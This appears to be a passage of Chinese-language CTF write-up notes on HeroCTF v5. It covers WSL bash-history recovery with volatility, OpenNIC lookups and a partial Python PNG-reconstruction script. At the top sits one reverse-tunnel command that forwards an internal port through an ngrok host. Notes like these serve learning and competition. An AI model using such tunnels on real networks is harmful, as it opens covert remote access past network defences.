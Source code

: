 ```
client 0.tcp.ap.ngrok.io:16442 R:5001:0.0.0.0:8080& //远程机server通过ngrok连接client

https://siunam321.github.io/ctf/HeroCTF-v5/System/IMF0-1/#imf1-bug-hunting
```
147. [Windows Stands for Loser](https://github.com/HeroCTF/HeroCTF_v5/tree/main/Forensics/Windows_Stands_For_Loser)
- 根据 https://www.sciencedirect.com/science/article/pii/S1742287618301944 ，Microsoft seems to have leveraged the same code, or at least the same data structures, as the familiar Linux bash console. This allows use of the existing bash history recovery algorithm for WSL processes。所以volatility2用于bash process的linux_bash插件内部的步骤也能用于windows。
  - Scan the heap。
  - Look for # characters in heap segments.
  - With each potential timestamp, we subtract x bits to find the base address of the _hist_entry
  - parse the _hist_entry structures founded
- volshell基本使用+cheatsheet
148. [OpenPirate](https://github.com/HeroCTF/HeroCTF_v5/tree/main/OSINT/OpenPirate)
- 使用[OpenNIC proxy](http://proxy.opennicproject.org/)访问网站。能访问的网站使用了OpenNIC的DNS服务器（可用nslookup查看）
149. [happy_puzzle](https://blog.csdn.net/qq_47875210/article/details/127814226)
- 根据png的[文件格式](https://www.ffutop.com/posts/2019-05-10-png-structure/)，一张png图片由PNG文件头+IHDR+IDAT+IEND组成。其中IDAT又由`IDAT_DATA的长度 + IDAT + IDAT_DATA + CRC32`（CRC32 = IDAT + IDAT_DATA）组成。那么只要给出全部的IDAT_DATA块和一些信息（png的宽和高，颜色模式，如RGB），就能自行还原png。文件头+IHDR结构：`89 50 4E 47 0D 0A 1A 0A + 00 00 00 0D + IHDR + IM_WIDTH + IM_HEIGHT + Bits + color_type + compr_method + filter_method + interlace_method + CRC32`(CRC32 = IHDR + IM_WIDTH + IM_HEIGHT + Bits + color_type + compr_method + filter_method + interlace_method);IEND结构：`00 00 00 00 49 45 4E 44 AE 42 60 82`
- 多个IDAT层之间是有顺序的，辨别方法是：如果拼对了一层，png就会显示出来一层。
```py
import os
import sys
import binascii
import zlib
OUTPUT = ''
def bin2hex(data):
    return binascii.b2a_hex(data)

def hex2bin(data):
    return binascii.a2b_hex(data)

def dec2bin(data, l=1):
    l = l / 2
    if l == 4:
        return hex2bin("%08x" % int(data))
    else:
        return hex2bin("%02x" % int(data))

def bin2dec(data):
    return int(bin2hex(data), 16)

def crc32(chunkType, chunkData):
    return dec2bin(binascii.crc32(chunkType + chunkData), 8)

def genIHDR(w, h):
    width = dec2bin(w, 8)
    height = dec2bin(h, 8)
    bits = dec2bin(8)
    color_type = dec2bin(2)
    compr_method = filter_method = interlace_method = dec2bin(0)
    chunkData = width+height+bits+color_type + \
        compr_method+filter_method+interlace_method
    res = dec2bin(len(chunkData), 8)+b'IHDR' + \
        chunkData+crc32(b'IHDR', chunkData)
    return res

def genIDAT(data):
```